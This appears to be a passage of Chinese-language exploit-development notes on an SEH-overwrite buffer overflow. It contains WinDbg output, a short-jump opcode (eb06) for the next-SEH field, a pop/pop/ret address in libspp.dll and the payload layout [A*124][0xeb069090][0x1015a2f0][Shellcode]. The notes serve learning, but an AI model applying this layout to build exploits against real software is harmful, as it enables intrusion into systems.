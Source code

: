 单步执行 P/P/R 指令后，我们将使用 a命令汇编短跳转并获取其操作码：
```
0:008> r  
eax=77383b02 ebx=018ff540 ecx=1015a2f0 edx=77383b20 esi=00000000 edi=00000000
eip=018fff54 esp=018ff444 ebp=018ff458 iopl=0 cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 018fff54 41 inc ecx

0:008> dds eip L4  
018fff54 41414141  
018fff58 1015a2f0 libspp!pcre_exec+0x16460 
018fff5c 43434343  
018fff60 43434343

//小跳一下
0:008> a  
018fff54 jmp 0x018fff5c 
jmp 0x018fff5c 
018fff56

0:008> u eip L1  
018fff54 eb06 jmp 018fff5c

0:008> dds eip L4  
018fff54 414106eb  
018fff58 1015a2f0 libspp!pcre_exec+0x16460 
018fff5c 43434343  
018fff60 43434343
```

没看懂 这个应该是值得next seh 
默认都是0xeb069090

jmp short对应的机器码是eb占一个字节，后面需要添加一个偏移位置占一个字节，这样剩下的间隔应该就是6个字节，所以next SEH的位置应该填eb 06。

由于Next SEH(SEH链表指针)占4字节，所以我们需要使用0x90来填充空余的两个字节。

```text
[A*124][0xeb069090][0x1015a2f0][Shellcode]
```



step5.执行shell代码：这里运行的是黑客用于攻击的shell代码。


---



